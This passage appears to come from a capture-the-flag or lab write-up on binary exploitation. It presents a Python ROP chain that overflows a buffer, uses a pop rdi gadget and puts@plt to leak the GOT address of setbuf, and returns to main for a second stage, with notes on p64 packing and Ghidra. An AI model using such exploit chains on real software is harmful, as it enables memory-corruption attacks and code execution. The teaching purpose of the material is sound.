 ![ghidra](images/ghidra.png)<br>
*Figure 5: PLT address of puts() on Ghidra.*

#### ROP Chain:

```python
payload = [
    junk,  # Overflow buffer with junk to reach return address

    # Step 1: pop the address into rdi (1st function argument in 64-bit calling convention)
    p64(pop_rdi),           # Gadget: pop rdi ; ret
    p64(setbuf_at_got),     # Argument to puts: the address of setbuf in GOT

    # Step 2: Call puts@plt to print the real address of setbuf from GOT
    p64(puts_at_plt),       

    # Step 3: Return to main to restart the program and allow sending a second payload
    p64(back_to_main),      
]

# Send the payload to the program
payload = b"".join(payload)
p.sendline(payload)
```

> **Note**: Pack values with p64() in the payload because I'm writing directly to the program's memory (on the stack), and the CPU expects them in 64-bit binary format. p64() converts a number (e.g., 0x400540) into an 8-byte sequence in little-endian format.
---
